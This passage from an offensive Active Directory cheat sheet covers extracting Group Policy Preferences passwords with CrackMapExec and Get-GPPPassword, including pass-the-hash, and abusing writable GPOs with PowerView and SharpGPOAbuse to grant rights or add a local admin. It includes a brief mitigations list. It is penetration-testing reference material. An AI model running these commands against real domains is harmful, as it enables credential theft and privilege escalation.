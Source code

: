 * CrackMapExec modules
    ```powershell
    cme smb 10.10.10.10 -u Administrator -H 89[...]9d -M gpp_autologin
    cme smb 10.10.10.10 -u Administrator -H 89[...]9d -M gpp_password
    ```

* [Get-GPPPassword](https://github.com/SecureAuthCorp/impacket/blob/master/examples/Get-GPPPassword.py)
  ```powershell
  # with a NULL session
  Get-GPPPassword.py -no-pass 'DOMAIN_CONTROLLER'

  # with cleartext credentials
  Get-GPPPassword.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'

  # pass-the-hash
  Get-GPPPassword.py -hashes 'LMhash':'NThash' 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'
  ```

#### Mitigations

* Install [KB2962486](https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2014/ms14-025) on every computer used to manage GPOs which prevents new credentials from being placed in Group Policy Preferences.
* Delete existing GPP xml files in SYSVOL containing passwords.
* Don’t put passwords in files that are accessible by all authenticated users.

### Exploit Group Policy Objects GPO

> Creators of a GPO are automatically granted explicit Edit settings, delete, modify security, which manifests as CreateChild, DeleteChild, Self, WriteProperty, DeleteTree, Delete, GenericRead, WriteDacl, WriteOwner

:triangular_flag_on_post: GPO Priorization : Organization Unit > Domain > Site > Local

GPO are stored in the DC in `\\<domain.dns>\SYSVOL\<domain.dns>\Policies\<GPOName>\`, inside two folders **User** and **Machine**.
If you have the right to edit the GPO you can connect to the DC and replace the files. Planned Tasks are located at `Machine\Preferences\ScheduledTasks`.

:warning: Domain members refresh group policy settings every 90 minutes by default but it can locally be forced with the following command: `gpupdate /force`. 

#### Find vulnerable GPO

Look a GPLink where you have the **Write** right.

```powershell
Get-DomainObjectAcl -Identity "SuperSecureGPO" -ResolveGUIDs |  Where-Object {($_.ActiveDirectoryRights.ToString() -match "GenericWrite|AllExtendedWrite|WriteDacl|WriteProperty|WriteMember|GenericAll|WriteOwner")}
```

#### Abuse GPO with SharpGPOAbuse

```powershell
# Build and configure SharpGPOAbuse
$ git clone https://github.com/FSecureLABS/SharpGPOAbuse
$ Install-Package CommandLineParser -Version 1.9.3.15
$ ILMerge.exe /out:C:\SharpGPOAbuse.exe C:\Release\SharpGPOAbuse.exe C:\Release\CommandLine.dll

# Adding User Rights
.\SharpGPOAbuse.exe --AddUserRights --UserRights "SeTakeOwnershipPrivilege,SeRemoteInteractiveLogonRight" --UserAccount bob.smith --GPOName "Vulnerable GPO"

# Adding a Local Admin
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount bob.smith --GPOName "Vulnerable GPO"

```